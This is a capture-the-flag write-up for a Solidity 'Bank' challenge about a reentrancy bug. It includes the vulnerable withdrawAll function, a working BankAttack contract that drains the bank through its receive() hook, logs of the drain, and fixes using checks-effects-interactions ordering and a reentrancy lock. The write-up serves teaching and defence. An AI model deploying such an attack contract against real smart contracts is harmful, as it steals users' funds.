

# Bank

## Vulnerability

Reentrancy


## Analysis

This challenge revolves around a reentrancy vulnerability, enabling a malicious actor to exploit a smart contract by repeatedly withdrawing ETH.

In the provided scenario, there's a Bank contract responsible for managing ETH balances for various users.
 The attack vector involves a malicious smart contract interacting with this Bank contract. When a contract receives Ether, 
 the `receive` function can be implemented to introduce logic into the transaction flow.

Due to the creation of a receive function in the malicious contract,
 the victim contract (in this case, the Bank contract) sends Ether to the malicious contract using the following line:

```
msg.sender.call{value: userBalance}("");
```
This allows the attacker to invoke the victim contract again before the initial withdrawal completes.

```
receive() external payable {
    if (address(victimBank).balance != 0) {           
        victimBank.withdrawAll();
    }
}
```

By calling the `withdrawAll` function again, the attacker retains funds in their account since the subtraction hasn't occurred yet.
 The deduction happens only after the transfer fails.

```
    uint256 userBalance = balances[msg.sender];

    (bool success, ) = msg.sender.call{value: userBalance}("");
```





### Exploited code

```solidity
function withdrawAll() external payable {
        // Check if the user has any balance
        require(balances[msg.sender] > 0,
         "No balance to withdraw");

        uint256 userBalance = balances[msg.sender];

        (bool success, ) =
         msg.sender.call{value: userBalance}("");

        require(success, "failed to send ether"); 

        //if succesful remove user credits
        balances[msg.sender] = 0;
}
```

# proof of concept (PoC) 

We start the exploit by deploying a malicious contract and sending it 1 ETH

```solidity
contract BankAttack {

    Bank public immutable victimBank;
    address public owner;

    constructor(address payable _victimAddress) {
       owner = msg.sender;
       victimBank = Bank(_victimAddress);
    }

    function attack() external payable {
        // call the deposit function
        victimBank.deposit{value: msg.value}();
        
        // call the withdraw function
        victimBank.withdrawAll();

        // send ether back to my wallet
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        console.log("Current balance of victimBank:", 
        address(victimBank).balance);

        if (address(victimBank).balance != 0) {           
            victimBank.withdrawAll();
        }
    }
}
```

Afterwards, we can initiate our attack by calling the `attack` function. This will:

- Call the `Deposit` function to deposit 1 ETH to the Bank contract
- Call the `Withdraw` function to withdrawl all of the Eth the user has (1 ETH)

Because the Bank contract transfers funds back to our contract `payable(owner).transfer(address(this).balance);`
we can call the withdraw function again in our receive funciton. the receive function is triggered when a contract receives ETH.

```solidity
   receive() external payable {
        if (address(victimBank).balance != 0) {           
            victimBank.withdrawAll();
        }
    }
```

When the Bank contract is drained we transfer the profit over to our wallet by utilizing
`payable(owner).transfer(address(this).balance);` 


Logs:
```
Player Balance before:  10000.0
Current balance of victimBank: 15000000000000000000
Current balance of victimBank: 12000000000000000000
Current balance of victimBank: 9000000000000000000
Current balance of victimBank: 6000000000000000000
Current balance of victimBank: 3000000000000000000
Current balance of victimBank: 0
Player Balance after:  10014.999131368948903685
```

Because of gas cost, its not 10015 but a little bit lower.


## Checks effect Pattern

To make sure the contract isnt elibble to be hijacked by flow contral after an extercal call we can use the checks effect pattern.

When a contract calls an external contract it also transfers the control flow.


```solidity
    // Check if the user has any balance
    require(balances[msg.sender] > 0, 
    "No balance to withdraw");

    uint256 userBalance = balances[msg.sender];

    //if succesful remove user credits
    balances[msg.sender] = 0;

    // transfer
    (bool success, ) = 
    msg.sender.call{value: userBalance}("");
    
    require(success, "failed to send ether"); 
```


It's important to note, that for programmers it might feel counterintuitive to code it this way, because normally
you would first want the transfer to be succesful and than change a balance, but in this case its neccesarcy to 
change the balance firs to prevent reentrancy, you can learn more about 
[solidity patterns](https://fravoll.github.io/solidity-patterns/) here


## Guard

There is also a guard modifier called nonreentrant that protects a function from being
entered again while its still in the process of executing, by creating a lock

A modifier is excecuted before a function.

```solidity

bool internal locked;

modifier noReetrant() {
    require(!locked, "No re-entrancy");
    locked = true;
    _;
    locked = false;
}

```


# Summary

To prevent a user to exploit your contract its important to secure it for reentrancy.
You can do it by adding a modifier or removing the player balance first and than transfering ETH.

[**< Back >**](https://patronasxdxd.github.io/CTFS/)
